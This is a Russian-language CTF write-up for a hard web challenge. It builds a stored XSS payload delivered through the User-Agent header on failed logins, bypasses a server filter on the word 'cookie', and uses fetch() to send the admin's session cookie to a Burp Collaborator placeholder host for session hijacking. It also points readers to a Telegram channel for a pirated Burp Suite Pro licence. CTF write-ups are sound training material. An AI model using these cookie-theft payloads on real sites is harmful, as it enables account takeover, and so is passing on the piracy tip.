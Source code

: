 **level**: **Hard**
**Description**: Воображение важнее, чем знания
**IP**: 62.173.140.174:16035

Мы видим - форма логин/регистрации
Попробуем создать аккаунт, нужно будет получить доступ к аккаунту админа.

Изучаем html код.

Видим личный кабинет  с "failed login attempts".
Попробуем XSS payload, зарегистрируем пользователя с логином:
````javascript 
<script>alert(1)</script>
````
Также пробуем зайти вне с неправильным паролем, и видим что XSS-уязвимость есть, это нам поможет захватить аккаунт пользователя запустив на нем javascript code, если сможем послать наш пейлоад.

Но изменить имя admin на пейлоад нельзя, но не будем забывать что есть еще другие поля, которые тоже скорее всего подвержены XSS-атаке.
На поле id, username, IP, Date мы повлиять не можем, они генерируются на сервере, а вот на User-Agent запросто!

Для этого напишем скрипт на python:

import requests

payload = "<script>alert(1);</script>" # пейлоад

user = "asdf" #Тут username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text) 

У нас получилось внедрить свой код.

Для данного способа вам потребуется ```Burp Suite Pro```.
Потому, что там есть ```Collaborator```, которого нет в бесплатной версии. 
Переходим по ссылке ``` https://t.me/pt_soft``` чтобы "купить" нашу лицензию.
В поиске по каналу в телеге ищем **Burpsuite**. И устанавливаем.


После поиска в гугл по запросу "XSS steal cookie payloads" и изучения результатов понимаем что нам нужно захватить ```document.cookie```.
Пробуем простой alert();

````python 
import requests


payload = '<script>alert(document.cookie);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
И сталкиваемся с проблемой
Все отработало, но alert'a нет. А это все потому, что на Codeby.games есть похожий таск, надо применить фильтрацию на серверной части на слово ```cookie```.

Не забываем, что у нас есть неограниченный доступ к javascript на клиентской части.
в функции alert() нам нужно вывести document.cookie.
Попробуем сделать это с помощью переменных.

````javascript
const vv = ["coo", "kie"].join("");
alert(document[vv]); 
````
Пробуем этот payload.
````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
Нам потребовался коллаборатор в бурпе.
Данное значение, которое только вывели в alert, мы будем ловить на его сервер.

Мы только что поймали наш request и можем его детально рассмотреть.
Эта функция заменит нам ngrok или свой белый IP и сервер, очень удобно.
Копируем и вставляем в скрипт.

````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````

Отправляем, ждем.
Подставим значение PHPSESSID в наш браузер.
